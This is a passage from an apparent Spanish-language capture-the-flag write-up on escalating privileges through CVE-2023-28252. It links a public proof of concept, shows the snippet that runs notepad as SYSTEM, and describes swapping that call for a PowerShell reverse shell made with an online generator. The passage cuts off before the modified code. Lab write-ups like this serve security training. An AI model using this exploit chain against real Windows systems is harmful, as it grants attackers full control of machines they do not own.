 Una busqueda de la vulnerabilidad en google nos lleva al siguiente repositorio que tiene un [POC](https://github.com/fortra/CVE-2023-28252). Lo clonamos y lo abrimos con vstudio. Y en archivo clfs_eop.cpp cambiamos la parte que ejecuta notepad con privilegios de sistema para que ejecuta una reverse shell de powershell. El codigo en cuestion es el siguiente: 

```c++
if (strcmp(username, "SYSTEM") == 0){
	printf("WE ARE SYSTEM\n");
	system("notepad.exe");			
}else {
	printf("NOT SYSTEM\n");
}
exit(1);
return;
```

Vamos a la pagina [revshells](https://www.revshells.com/) y creamos la siguiente shell: 
<div style="text-align:center">
    <img src="/assets/img/Posts/Aero/revshell.JPG" alt="Grafica del estudio de mercado" >
</div>


Y el codigo del POC nos quedaria de la siguiente manera:
